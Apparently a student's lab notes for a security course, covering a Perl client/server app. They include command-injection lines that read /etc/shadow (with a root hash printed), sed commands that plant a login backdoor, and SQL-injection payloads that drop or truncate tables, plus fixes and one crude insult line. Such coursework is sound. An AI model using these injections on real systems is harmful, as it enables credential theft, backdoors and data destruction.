 
[<- back to start](linkk)

# M183

## start Server

```pearl
fulla
```

## Get Server Ready
 
 ur mom has no balls,  there fore no kids and no bitches for you goofy ahh bitcha maidenless hoe night

### vmLP1
### Änderungen im Server-Code auf den Server verteilen und Server direkt starten
```bash
cd code/server
```

```bash
bash deploy.sh
```
### Server auf Entwickler-PC direkt ab Source starten

```bash
cd code/server
```

```perl
perl -Ilib bin/fulla
```

### vmLS3
### turn on live logs

```bash
tail -f fulla.*
```

### start the server in root

```bash
sudo -s fulla
```

## Get Client Ready

```bash
ziu --help 
ziu login # use admin anna 
FULLAIP=192.168.220.13 ziu list 
export FULLAIP=192.168.220.13 
cd /code/client; bash deploy.sh 
cd /code/client; perl ziu list
```

if this error occurs

![SessionNotValid](/Img/m183SessionNotValid.png)

Login again and it should work

![ZiuLogin](/Img/m183ZiuLogin.png)


## 2.2 Angriffe Ausführen

### 2.2.1

### Aufgabe 6

create the readme.txt

```perl
ziu 'list -l; echo "Bei telefonischen Anfragen von Herr W. Beinhart: Dem Anrufer bitte Root-Passwort mitteilen!" > /tmp/readme.txt'
```

check if it worked

```perl
ziu "list -l; cat /tmp/readme.txt"
```

should display the contents of the file

if it doesn't it either didn't work or is bugged

check on the server (optional & if possible)

```bash
cat /tmp/readme.txt"
```
#### Aufgabe 7

get passwort hashes
```
ziu "list -l; cat /etc/shadow"
```

pw hashes result

```powershell
root:$y$j9T$nS/i7F9QsxP6xp/.cpizu/$6EkkwPJxehs6zwUfwxSEfkjtTd4VASC5imokYUE65YA:19592:0:99999:7:::
daemon:*:19405:0:99999:7:::
bin:*:19405:0:99999:7:::
sys:*:19405:0:99999:7:::
sync:*:19405:0:99999:7:::
games:*:19405:0:99999:7:::
man:*:19405:0:99999:7:::
lp:*:19405:0:99999:7:::
mail:*:19405:0:99999:7:::
news:*:19405:0:99999:7:::
uucp:*:19405:0:99999:7:::
proxy:*:19405:0:99999:7:::
www-data:*:19405:0:99999:7:::
backup:*:19405:0:99999:7:::
list:*:19405:0:99999:7:::
irc:*:19405:0:99999:7:::
gnats:*:19405:0:99999:7:::
nobody:*:19405:0:99999:7:::
_apt:*:19405:0:99999:7:::
systemd-network:*:19405:0:99999:7:::
systemd-resolve:*:19405:0:99999:7:::
messagebus:*:19405:0:99999:7:::
systemd-t

```
### 2.2.2

### Aufgabe 8

option 1

```bash
ziu "list; sudo sed -i '50 c if (\$user_id || \$user == \"Hacker\") {' /usr/share/perl5/Fulla/Auth.pm"
```

option 2

```bash
ziu 'list -l; searchText="if (\$user_id) {"; replaceText="if (\$user_id || \$user eq \"hacker\") {"; sed -i "s/$(echo $searchText)/$(echo $replaceText)/"/usr/share/perl5/Fulla/Auth.pm'
```

restart server

```perl
sudo pkill -F pid.fulla
```

Login with hacker

```perl
ziu login
```



## 3 Kommando-Injektion (fix)

### 3.1 Applikatoiinsbenutzer verwenden

#### Aufgabe 1

```bash
patch deploy.sh patches/deploy_as_app-user.patch
```

### 3.2 Auswertung Angriffsübung

### 3.4 Esterne Daten prüfen

#### 3.4.1 Eingagben "Escapen

Installation einer Library welche Shell-Escaping anbietet

```bash
sudo apt install libstring-shellquote-perl
```

```bash
echo \'; # '

echo ';' # ;
```

### 3.5 Praxis

## 4 Interpreter Injektion

### 4.1

### 4.2 SQL-Injection durchführen

Trockenübungen & Pseudo code

#### 4.2 Aufgabe 5

```sql
'Drop Table building; #
```

#### 4.2 Aufgabe 6

```sql
'truncate table users; #
```

## 5 SQL-Injection (Fix)